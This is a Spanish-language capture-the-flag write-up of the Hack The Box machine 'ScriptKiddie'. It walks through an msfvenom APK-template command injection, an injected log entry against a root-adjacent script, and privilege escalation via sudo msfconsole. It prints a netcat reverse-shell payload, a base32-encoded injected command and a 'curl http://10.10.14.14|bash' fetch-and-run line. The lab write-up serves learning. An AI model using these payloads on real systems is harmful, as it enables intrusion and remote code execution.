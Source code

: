 ```yaml
---
title: ScriptKiddie
date: 2023-04-11 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: []     # TAG names should always be lowercase
---
```


```shell
# Nmap 7.93 scan initiated Tue Apr 11 14:26:40 2023 as: nmap -sCV -p22,5000 -oN targeted 10.10.10.226
Nmap scan report for 10.10.10.226
Host is up (0.15s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c656bc2dfb99d627427a7b8a9d3252c (RSA)
|   256 b9a1785d3c1b25e03cef678d71d3a3ec (ECDSA)
|_  256 8bcf4182c6acef9180377cc94511e843 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr 11 14:26:53 2023 -- 1 IP address (1 host up) scanned in 13.44 seconds
```
Nos encontramos con un sitio web donde tenemos varias utilidades que usamos normalmente en hacking. 

![imagen1](/assets/images/ScriptKiddie/scriptk1.png)

De lo apartados de scan y searchploit no encontramos alguna manera de vulnerar estas partes, sin embargo, la parte de generate nos muestra que podemos subir un archivo template para generar el archivo con msfvenom, buscando por searchsploit encontramos que msfvenom tiene una vulnerabilidad al recibir un template de apk. Esto nos ayuda a ejecutar comandos. Para esto hicimos uso de este [script](https://www.exploit-db.com/exploits/49491) donde introducimos en payload un comando que nos de una reverse shell, subimos el archivo al sitio web y con eso tuvimos acceso a la máquina.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/ScriptKiddie$ sudo searchsploit msfvenom
[sudo] password for gu3ro: 
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection                                                                                  | multiple/local/49491.py
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/ScriptKiddie$ python3 poc.py
[+] Manufacturing evil apkfile
Payload: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 1234 >/tmp/f
-dname: CN='|echo OJWSAL3UNVYC6ZR3NVVWM2LGN4QC65DNOAXWMO3DMF2CAL3UNVYC6ZT4F5RGS3RPONUCALLJEAZD4JRRPRXGGIBRGAXDCMBOGE2C4MJUEAYTEMZUEA7C65DNOAXWM=== | base32 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpd3ybh7hk/evil.apk
Do: msfvenom -x /tmp/tmpd3ybh7hk/evil.apk -p android/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=4444 -o /dev/null
```
![imagen2](/assets/images/ScriptKiddie/scriptk2.png)

Dentro de la máquina encontramos una carpeta logs donde nos muestra un archivo hackers vacio donde tenemos permisos de lectura y escritura. Por el momento no parece útil, revisando la carpeta home encontramos un usuario pwn donde está ejecutando un archivo

```shell
kid@scriptkiddie:~/logs$ ls
hackers

kid@scriptkiddie:/home$ ls
kid  pwn
kid@scriptkiddie:/home$ cd pwn
kid@scriptkiddie:/home/pwn$ ls
recon  scanlosers.sh
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh 
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
En este archivo está obteniendo los valores del archivo hackers que encontramos en la carpeta logs, en este punto como tenemos permisos de escritura en el archivo hackers y tal información que obtiene el script no está siendo validada, creamos un contenido malicioso para ese archivo y verificamos que nos de ejecución de comandos.

```shell
kid@scriptkiddie:/home/pwn$ echo "x x 10.10.10.10; ping -c 2 10.10.14.14" > ../kid/logs/hackers 
```
```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/ScriptKiddie$ sudo tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
19:32:55.407672 IP 10.10.10.226 > 10.10.14.14: ICMP echo request, id 2, seq 1, length 64
19:32:55.407736 IP 10.10.14.14 > 10.10.10.226: ICMP echo reply, id 2, seq 1, length 64
19:32:56.431301 IP 10.10.10.226 > 10.10.14.14: ICMP echo request, id 2, seq 2, length 64
19:32:56.431319 IP 10.10.14.14 > 10.10.10.226: ICMP echo reply, id 2, seq 2, length 64
```
Con esto podemos entablarnos una conexión con el usuario pwn.

```shell
kid@scriptkiddie:/home/pwn$ echo "x x 10.10.10.10; curl http://10.10.14.14|bash" > ../kid/logs/hackers
```
Con el usuario pwn tenemos permisos sudo para correr metasploit.

```shell
pwn@scriptkiddie:/home$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
Aquí solamente ejecutamos comandos como root por lo que nos mandamos una bash y habremos pwneado la máquina.

```shell
pwn@scriptkiddie:/home$ sudo /opt/metasploit-framework-6.0.9/msfconsole
                                                  
IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: View a module's description using info, or the enhanced version in your browser with info -d

msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> system("/bin/bash")
root@scriptkiddie:/home# whoami
root
root@scriptkiddie:/home# 
```
